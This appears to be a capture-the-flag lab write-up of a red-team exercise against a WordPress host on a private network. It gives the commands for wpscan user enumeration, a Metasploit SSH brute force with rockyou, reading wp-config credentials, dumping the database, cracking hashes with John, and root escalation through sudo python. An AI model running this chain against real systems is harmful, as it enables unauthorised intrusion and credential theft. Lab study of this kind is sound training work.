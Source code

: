 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
  - Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

## Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

------
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method
  - First we enumerated the user accounts by exploiting the vulnerable WordPress site using WPScan
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
![wpscan](images/wpscan_user.png)

  - With the user accounts we can use Metasploit's SSH Login Check Scanner module and the rockyou wordlist to brute force the password
```
$ msfconsole
```
```
> search ssh_login
```
![ssh_login](images/search_ssh_login.png)

```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
![msfconsole](images/msfconsole_ssh_login.png)
```
> exit -y
```
  - After obtaining the password: `michael` we are able to SSH into `Target 1`
```
$ ssh michael@192.168.1.110
```
![SSH Michael](images/ssh_michael.png)
  - From here we used the follow command to locate `flag1`
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
![flag1](images/flag1z.png)

-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
  - Using the existing access we were able to locate `flag2` using the following command
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
![flag2](images/flag2.png)

-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
  - Using the existing access we were able to locate `flag3` by harvesting the WordPress database login credentials
```
$ cat /var/www/html/wordpress/wp-config.php
```
![wp_config](images/wp_config.png)
With these credentials we dumped the entire database using the following command
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
  - After dumping we ran a search for `flag3`
```
$ grep “flag3” dump
```
![flag4](images/flag3z.png)

> Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
  - Logging into the WordPress database we were able to obtain the unsalted hash for the user account `steven`
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
> select * from wp_users;
```
![wp_users](images/wp_users.png)
```
> exit
```
```
$ exit
```
  - With the hash we created a `hash.txt` for use with John the Ripper
```
$ echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
$ john hash.txt
```
![john hash](images/john_hash.png)
  - After cracking the password we were able to login as `steven`
```
$ ssh steven@192.168.1.110
```
  - When checking `steven`'s privileges we noticed he has sudo access to `/usr/bin/python`
```
$ sudo -l
```
![steven_sudo](images/sudo.png)
  - With this we were able to escalate to root
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
  - Finally running the following command for `flag4`
```
$ find / -iname "flag4*" 2> /dev/null
```
![find_flag4](images/find_flag4.png)
```
$ cat /root/flag4.txt
```
![flag4](images/flag4.png)

-----


